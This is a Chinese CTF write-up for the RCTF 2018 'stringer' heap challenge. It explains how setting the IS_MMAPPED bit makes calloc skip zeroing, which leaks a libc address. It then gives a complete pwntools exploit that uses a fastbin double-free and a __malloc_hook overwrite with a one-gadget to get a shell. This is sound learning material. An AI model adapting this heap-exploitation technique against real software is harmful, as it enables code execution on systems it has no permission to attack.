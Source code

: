 # RCTF stringer
## Author: fanda
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>老样子先贴一下我学习的**NBUSEC**队伍的wp[链接](https://github.com/sajjadium/ctf-writeups/blob/master/RCTF/2018/stringer/stringer_exploit.py)，诶刚起步只能多学习学习其他大佬的。</br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>这题保护全开，给的libc可以改写GOT，所以覆写\__malloc_hook不用多说，程序逆向分析一下发现明显存在off-by-one漏洞和double-free漏洞，当然还有UAF。这题主要难在calloc的行为会阻止我们泄露地址，不过，道高一尺魔高一丈:)</br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>通过观察[calloc](https://github.com/str8outtaheap/heapwn/blob/master/malloc/__libc_calloc.c)的源代码可以看到有这样一段：</br>

```C
 p = mem2chunk (mem);

  /* Two optional cases in which clearing not necessary */
  if (chunk_is_mmapped (p))
    {
      if (__builtin_expect (perturb_byte, 0))
        return memset (mem, 0, sz);

      return mem;
    }

  csz = chunksize (p);
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>意思就是说如果堆块被设置了mmaped标志位的话，calloc就不会把他初始化为0，那么mmaped标志位在哪呢？我们来看一下堆块头（取自[sploitfun](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/)）：</br>

>prev_size – If the previous chunk is free, this field contains the size of previous chunk.
>Else if previous chunk is allocated, this field contains previous chunk’s user data.
>
>size : This field contains the size of this allocated chunk. Last 3 bits of this field contains flag information.
>	PREV_INUSE (P) – This bit is set when previous chunk is allocated.
>	IS_MMAPPED (M) – This bit is set when chunk is mmap’d.
>	NON_MAIN_ARENA (N) – This bit is set when this chunk belongs to a thread arena.
>
>fd – Points to next chunk in the same bin.
>bk – Points to previous chunk in the same bin.


&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>也就是堆块size中的第二个比特位，如果本来size是0x91,我们置了mmaped之后就是0x93(PREV_INUSE | IS_MMAPED)。然后就可以绕过置0，成功泄露地址了:)其他套路都差不多，所以直接放脚本了：</br>

Exploit脚本:
=======

```python
from pwn import *

DEBUG = 1

def add_string(size, content, is_attack=False):
    p.recvuntil('choice: ')
    p.sendline('1')
    p.recvuntil('please input string length: ')
    p.sendline(str(size))

    if not is_attack:
        p.recvuntil('please input the string content: ')
        p.send(content)
        p.recvuntil('your string: ')

def view_string(title):
    p.recvuntil('choice: ')
    p.sendline('2')
    p.recvuntil("don't even think about it")

def edit_string(index, offset):
    p.recvuntil('choice: ')
    p.sendline('3')
    p.recvuntil('please input the index: ')
    p.sendline(str(index))
    p.recvuntil('input the byte index: ')
    p.sendline(str(offset))

def delete_string(index):
    p.recvuntil('choice: ')
    p.sendline('4')
    p.recvuntil('please input the index: ')
    p.sendline(str(index))

def leak():

    add_string(24, 'a' * 24)        # 0 (32) fastbin_1
    add_string(128, 'b' * 128)      # 1 (144) smallbin_1
    add_string(24,  'c' * 24)       # 2 (32) fastbin_2

    delete_string(1)

    # its size changes from 0x91 to 0x93 (PREV_INUSE && IS_MMAPED)
    edit_string(0, 24)
    edit_string(0, 24)

    # smallbin_2 will be placed in smallbin_1's chunk
    add_string(128, 'd' * 7 + '\n') # 3 (144) smallbin_2

    # leak bk pointer of smallbin_1
    p.recvuntil('d' * 7 + '\n')
    return u64(p.recv(6) + '\x00\x00') - 0x3c4b78

def exploit(libc_base):

    # allocate two fastbins to launch the fastbin attack using double free
    add_string(96, 'e' * 96)        # 4 (112) fastbin_3
    add_string(96, 'f' * 96)        # 5 (112) fastbin_4

    delete_string(4)
    delete_string(5)
    delete_string(4)

    fake_chunk = libc_base + 0x3c4aed			# before __malloc_hook
    print 'Fake Chunk: {}'.format(hex(fake_chunk))
    add_string(96, p64(fake_chunk) + 'g' * 88)          # 6 (112) fastbin_5

    add_string(96, 'h' * 96)                            # 7 (112) fastbin_6

    add_string(96, 'i' * 96)                            # 8 (112) fastbin_7

    execve_addr = libc_base + 0xf02a4 			# oneshot address
    add_string(96, 'i' * 19 + p64(execve_addr) + '\n')  # 9 (112) fastbin_8

    add_string(1, '\n', True)

if __name__ == '__main__':
    if DEBUG == 1:
      p = process('./stringer')
    else:
      p = remote('stringer.2018.teamrois.cn',7272)

    libc_base = leak()
    print 'libc base: {}'.format(hex(libc_base))

    exploit(libc_base)

    p.interactive()

```
